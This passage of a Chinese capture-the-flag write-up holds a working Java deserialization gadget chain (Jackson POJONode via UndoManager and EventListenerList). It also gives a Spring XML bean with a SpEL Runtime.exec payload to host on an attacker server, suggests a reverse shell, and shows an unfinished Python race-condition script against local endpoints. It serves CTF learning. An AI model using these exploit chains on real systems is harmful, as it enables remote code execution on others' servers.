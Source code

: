 ```plain
        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(ctMethod);
        ctClass.toClass();

        POJONode pojoNode = new POJONode(convertedVal);

        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector vector = (Vector) ReflectUtil.getFieldValue(undoManager, "edits");
        vector.add(pojoNode);
        ReflectUtil.setFieldValue(eventListenerList, "listenerList", new Object[]{InternalError.class, undoManager});

        byte[] data = SerializeUtil.serialize(eventListenerList);

        System.out.println(Base64.getEncoder().encodeToString(data));
    }

}
```

在攻击者 VPS 准备如下.xml，里面的 exec 部分用来执行指令，可以使用反弹 shell 读取 flag。

```plain
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="evil" class="java.lang.String">
        <constructor-arg value="#{T(Runtime).getRuntime().exec('touch /tmp/pwnned')}"/>
    </bean>
</beans>
```

## Pastbin

可以通过竞争 /flag 与 /about 获取到 FLAG ，有多种并发方式，以下提供一种使用 python 的执行并发的方式，仅供参考，后续会提供详细分析的 writeup放在评论区

```plain
import asyncio
import aiohttp

async def send_request(session, url):
    while True:
        async with session.get(url) as resp:
            text = await resp.text()
            if "aliyunctf" in text:
                print(f"Found 'aliyunctf' in URL: {url}")
                print(text)
                exit()
            print(f"URL: {url}, Status: {resp.status}")

async def main():
    urls = ["http://localhost:28080/about", "http://localhost:28080/flag"]
    concurrency_per_url = 20

    async with aiohttp.ClientSession() as session:
        tasks = []
        for url in urls:
            for _ in range(concurrency_per_url):
                tasks.append(send_request(session, url))

```